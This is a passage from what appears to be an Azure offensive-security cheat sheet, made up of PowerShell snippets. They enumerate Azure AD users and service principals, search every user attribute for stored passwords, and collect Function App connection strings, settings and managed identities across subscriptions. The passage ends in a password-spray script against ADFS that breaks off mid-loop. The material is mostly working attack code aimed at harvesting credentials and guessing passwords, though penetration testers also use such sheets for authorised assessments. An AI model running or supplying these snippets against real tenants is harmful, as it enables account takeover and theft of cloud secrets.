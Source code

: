List all user attributes

```powershell
Get-MSolUser –All | fl
```

List Service Principals

```powershell
Get-MsolServicePrincipal
```

One-liner to search all Azure AD user attributes for passwords

```powershell
$users = Get-MsolUser -All; foreach($user in $users){$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; foreach($prop in $props){if($user.$prop -like "*password*"){Write-Output ("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop)}}} 
```

#### Function Apps
List Function App Hostnames
```powershell
$functionapps = Get-AzFunctionApp
foreach($f in $functionapps){
	$f.EnabledHostname
}
```

Extract interesting Function Info
```powershell
$subs = Get-AzSubscription
$allfunctioninfo = @()
Foreach($s in $subs){
    $subscriptionid = $s.SubscriptionId
    Select-AzSubscription -Subscription $subscriptionid
    $functionapps = Get-AzFunctionApp
    foreach($f in $functionapps){
        $allfunctioninfo += $f.config | select-object AcrUseManagedIdentityCred,AcrUserManagedIdentityId,AppCommandLine,ConnectionString,CorSupportCredentials,CustomActionParameter
        $allfunctioninfo += $f.SiteConfig | fl
        $allfunctioninfo += $f.ApplicationSettings | fl
        $allfunctioninfo += $f.IdentityUserAssignedIdentity.Keys | fl
    }
}
$allfunctioninfo
```

#### Simple Password Spray Script with Az PowerShell Connect-AzAccount

This simple script works well for ADFS environments. Uses one pass per line in the passlist.txt file for spraying with unique values for each user such as username or employee ID.

```powershell
$userlist = Get-Content userlist.txt
$passlist = Get-Content passlist.txt
$linenumber = 0

$count = $userlist.count

foreach($line in $userlist){

    $user = $line
    $pass = ConvertTo-SecureString $passlist[$linenumber] -AsPlainText -Force
    $current = $linenumber + 1
    Write-Host -NoNewline ("`r[" + $current + "/" + $count + "]" + "Trying: " + $user + " and " + $passlist[$linenumber])
    $linenumber++
```